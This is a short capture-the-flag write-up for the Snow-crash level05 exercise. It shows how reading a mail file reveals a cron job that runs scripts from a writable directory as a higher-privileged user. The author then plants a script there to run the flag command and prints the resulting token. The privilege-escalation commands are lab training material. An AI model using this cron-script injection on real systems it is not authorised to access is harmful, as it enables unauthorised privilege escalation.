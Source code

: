 # Snow-crash - level05

## Find something
* At connection, a message pop on term
```bash
level05@192.168.56.4's password: 
You have new mail.
```
* So let's search, and the content of mail is a cron who execute every 2min a script by sh with **/usr/sbin/openarenaserver" - flag05**
```bash
level05@SnowCrash:~$ find /* -name mail 2>/dev/null -exec ls {} +
/rofs/usr/lib/byobu/mail  /usr/lib/byobu/mail
/rofs/var/mail:
level05
/rofs/var/spool/mail:
level05
/var/mail:
level05
/var/spool/mail:
level05
level05@SnowCrash:~$ find /* -name level05 2>/dev/null -exec cat {} +
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
* Go inject a script on it, and create file to get the flag !
```bash
level05@SnowCrash:~$ find /* -name openarenaserver 2>/dev/null
/opt/openarenaserver
/rofs/opt/openarenaserver
/rofs/usr/sbin/openarenaserver
/usr/sbin/openarenaserver
level05@SnowCrash:/opt/openarenaserver/$ echo "/bin/getflag > /tmp/flager.txt" > hack05.sh
level05@SnowCrash:/opt/openarenaserver/$ chmod 777 hack05.sh
level05@SnowCrash:/tmp/$ touch flager.txt && chmod 777 flager.txt
```
* After a few time */opt/openarenaserver/* is empty and *flager.txt* is not
```bash
level05@SnowCrash:/opt/openarenaserver$ tail -f /tmp/flager.txt
Check flag.Here is your token : viuaaale9huek52boumoomioc
```



